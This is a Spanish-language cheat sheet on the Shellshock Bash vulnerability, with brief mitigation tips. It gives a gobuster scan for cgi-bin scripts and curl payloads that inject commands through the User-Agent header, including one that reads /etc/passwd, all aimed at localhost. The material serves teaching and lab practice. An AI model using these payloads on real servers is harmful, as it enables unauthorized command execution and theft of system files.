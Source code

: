 ```yaml
---

### 💣 **Shellshock Attack Cheat Sheet** 💣

---
```

---
#### **¿Qué es el Ataque Shellshock?**  
El ataque **Shellshock** explota una vulnerabilidad en el intérprete de comandos **Bash** en sistemas operativos basados en **Unix y Linux**.  
Fue descubierto en **2014** y se considera una de las vulnerabilidades más críticas en la historia de la informática.  

---

### **¿Cómo funciona Shellshock?**  
La vulnerabilidad surge cuando Bash maneja **variables de entorno**.  
Los atacantes pueden inyectar **código malicioso** en estas variables, que Bash ejecuta sin cuestionar su origen o contenido.  

---

### **Vector de Ataque: User-Agent**  
Uno de los métodos más comunes de explotación es manipular el **User-Agent** para incluir comandos maliciosos.  
El servidor web ejecutará el comando al recibir la solicitud, especialmente si se encuentra el directorio **`cgi-bin`**.  

---

## **Exploración Inicial: Detectando el directorio cgi-bin**

Antes de explotar la vulnerabilidad, es fundamental detectar el directorio **cgi-bin** y los archivos que contiene:  
```bash
gobuster dir -u http://localhost/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x pl,sh,cgi -v
```
- **Extensiones comunes:** `.pl`, `.sh`, `.cgi`  
- **Objetivo:** Encontrar archivos que se puedan explotar.  

---

## **Payloads para Explotación usando curl**

Una vez identificado un archivo dentro de **cgi-bin**, intenta ejecutar comandos mediante el encabezado **User-Agent**:  

### **Ejecutando Comandos en el Servidor**
```bash
curl -s http://localhost/cgi-bin/status -H "User-Agent: () { :; }; /usr/bin/whoami"
```
- 💡 **Explicación:** El encabezado **User-Agent** contiene el payload que ejecuta el comando `whoami`.

---

### **Payload Alternativo con Echo**
Si el payload anterior no muestra nada, intenta agregar un **echo** antes:  
```bash
curl -s http://localhost/cgi-bin/status -H "User-Agent: () { :; }; echo; /usr/bin/whoami"
```
- **Explicación:** El uso de `echo` puede forzar una respuesta más clara si el servidor no muestra la salida directamente.  

---

### **Otros Comandos para Verificar la Vulnerabilidad**
```bash
curl -s http://localhost/cgi-bin/status -H "User-Agent: () { :; }; /bin/ls"
curl -s http://localhost/cgi-bin/status -H "User-Agent: () { :; }; echo; /bin/cat /etc/passwd"
```
- **Objetivo:** Verificar la ejecución de comandos arbitrarios y la posibilidad de leer archivos sensibles.  

---

## **Consejos de Mitigación**
1. **Actualizar Bash:** Asegúrate de que tu sistema tenga la última versión de Bash.  
2. **Desactivar CGI no necesario:** Deshabilita el uso de scripts CGI si no son imprescindibles.  
3. **Monitoreo de Logs:** Revisa los registros de acceso en busca de patrones sospechosos de comandos en User-Agent.  
4. **Implementar WAF:** Un firewall de aplicaciones web puede bloquear solicitudes maliciosas.  

---
